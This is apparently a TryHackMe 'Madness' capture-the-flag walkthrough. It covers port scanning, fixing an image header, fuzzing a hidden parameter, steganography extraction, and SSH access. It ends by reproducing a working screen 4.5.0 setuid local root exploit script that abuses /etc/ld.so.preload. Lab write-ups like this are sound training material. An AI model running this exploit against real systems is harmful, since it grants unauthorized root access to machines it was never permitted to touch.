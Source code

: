 ```yaml
---
description: https://tryhackme.com/room/madness
---
```


# Madness

## Nmap

```
sudo nmap 10.10.123.18 -p- -sS -sV

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Nmap done: 1 IP address (1 host up) scanned in 24.11 seconds
```

The default page for http://\<IP> resolves to the Apache2 Ubuntu page.

![](<../../../.gitbook/assets/image (499).png>)

Looking at the page source code we find something of interest.

![](<../../../.gitbook/assets/image (155) (1).png>)

We can then use `Curl` to download the JPG file.

```bash
curl http://10.10.123.185/thm.jpg --output thm2.jpg
```

From here we have no luck opening the file as a standard JPG file. I uploaded the file to an online hex editor to further inspect.

{% embed url="https://hexed.it" %}

The hex editor shows that the header information for the file is actually set to PNG rather than JPEG.

![](<../../../.gitbook/assets/image (327).png>)

Using the following information linked here: [https://www.file-recovery.com/jpg-signature-format.htm](https://www.file-recovery.com/jpg-signature-format.htm).

We are able to replicate the correct header for the first line in order to set the correct header for the data type.

![](<../../../.gitbook/assets/image (1096).png>)

After doing so the image can be exported and viewed correctly.

![](<../../../.gitbook/assets/image (2033).png>)

The image presents the directory `/th1s_1s_h1dd3n`.

![](<../../../.gitbook/assets/image (42) (2).png>)

Viewing the page source reveals the commented line:

```html
<!-- It's between 0-99 but I don't think anyone will look here-->
```

After some poking about I found that the main index page is PHP. Along with this and no obvious method for inputting the secret mentioned above its probable that the `/th1s_1s_h1dd3n` directory will take a `PHP` parameter for input.

After some testing I found the following URL to be a valid parameter:

```
http://<IP>/th1s_1s_h1dd3n/?secret=1
```

![](<../../../.gitbook/assets/image (2052) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2).png>)

I then used `fuff` to automate this.

```bash
ffuf -u "http://<IP>/th1s_1s_h1dd3n/?secret=FUZZ" -c -w ~/Desktop/99.txt -fw 45      
```

![](<../../../.gitbook/assets/image (1218).png>)

Where the number 73 appears to be the correct input.

![](../../../.gitbook/assets/madness-jpg.png)

This password can be used with `steghide` to then extract secret information from the `thm.jpg` (with the correct JPEG header).

```bash
steghide --extract -sf thm.jpg
```

From the extracted data we find we are given an encoded username. Using Cyberchef: [https://gchq.github.io/CyberChef/#recipe=ROT13(true,true,false,13)](https://gchq.github.io/CyberChef/#recipe=ROT13\(true,true,false,13\)) and with the hint from the room ROT13 can be used to decode the real username value.

Unfortunately this part of the room had to be looked up. This is because the password information required to proceed is hidden in the image on the room page.

![](<../../../.gitbook/assets/image (1323).png>)

```
steghide --extract -sf thm-image.jpg 
```

We do not need a password to extract at least...

We now have all the information required to proceed with a SSH login as the user joker.

![](<../../../.gitbook/assets/image (113).png>)

Through the standard enumeration checks we find `SETUID` is set on a non standard binary screen-4.5.0.

```
find /bin -perm -4000
```

![](<../../../.gitbook/assets/image (2053) (1) (1) (1) (2).png>)

A simple Google search for this binary shows various exploits. Of which the most simple is shown below.

**Original vulnerability report:** [https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html](https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html)

**Github PoC:** [https://github.com/XiphosResearch/exploits/blob/master/screen2root/screenroot.sh](https://github.com/XiphosResearch/exploits/blob/master/screen2root/screenroot.sh)

```bash
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017) 
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so... 
/tmp/rootshell
```

Create a bash file with `nano` and paste the code above in the file. Then execute with `bash`. This will give us a root shell.

![](<../../../.gitbook/assets/image (1088).png>)
